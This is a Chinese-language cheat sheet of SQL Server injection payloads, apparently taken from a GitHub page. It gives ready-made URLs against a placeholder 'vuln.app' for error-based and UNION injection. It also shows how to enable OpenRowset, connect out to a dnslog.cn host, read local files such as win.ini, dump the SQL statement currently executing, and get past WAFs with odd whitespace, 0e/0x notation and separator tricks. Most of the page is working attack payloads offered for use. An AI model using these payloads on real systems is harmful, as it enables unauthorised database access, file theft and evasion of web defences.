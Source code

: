 
**报错注入:**(基于错误的向量需要别名或名称，因为不能将两者的表达式输出格式化为JSON。)
`https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)--`
## 读取本地文件
### OpenRowset()
```sql
--开启OpenRowSet()
exec sp_configure 'show advanced options',1
reconfigure
exec sp_configure 'Ad Hoc Distributed Queries',1
reconfigure
```
```sql
--OpenRowset()
select * from OpenRowset('sqloledb','server=aaaa.dnslog.cn;uid=sa;pwd=sa','')
```
**联合查询:**  
`https://vuln.app/getItem?id=-1+union+select+null,(select+x+from+OpenRowset(BULK+’C:\Windows\win.ini’,SINGLE_CLOB)+R(x)),null,null`  
**报错注入:**  
`https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--`  

**权限:** BULK选项需要ADMINISTER BULK OPERATIONS或ADMINISTER DATABASE BULK OPERATIONS权限。

## 爆出当前SQL语句
当前执行的SQL语句可以从`sys.dm_exec_requests`和 `sys.dm_exec_sql_text`中查询
`https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null`  

**权限**：如果用户在服务器上具有“查看服务器状态”权限，则该用户将在SQL Server实例上看到所有正在执行的会话；否则，用户将仅看到当前会话。
## BypassWAF
1. 非标准的空白字符：%C2%85 или %C2%A0,空白字符: 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
[https://vuln.app/getItem?id=1unionselect null,@@version,null--](https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null--)
2. 科学（0e）和十六进制（0x）表示法，用于混淆UNION：
[https://vuln.app/getItem?id=0eunion+select+null,@@version,null--](https://vuln.app/getItem?id=0eunion+select+null,@@version,null--)
[https://vuln.app/getItem?id=0xunion+select+null,@@version,null--](https://vuln.app/getItem?id=0xunion+select+null,@@version,null--)
3. 在FROM和列名之间用点代替空格：
[https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--](https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--)
4. SELECT和一次性列之间的\N分隔符：
[https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--](https://vuln.app/getItem?id=0xunion+select%5CNnull,@@version,null+from+users--)
5. IIS+sqlserver: IBM 编码bypass
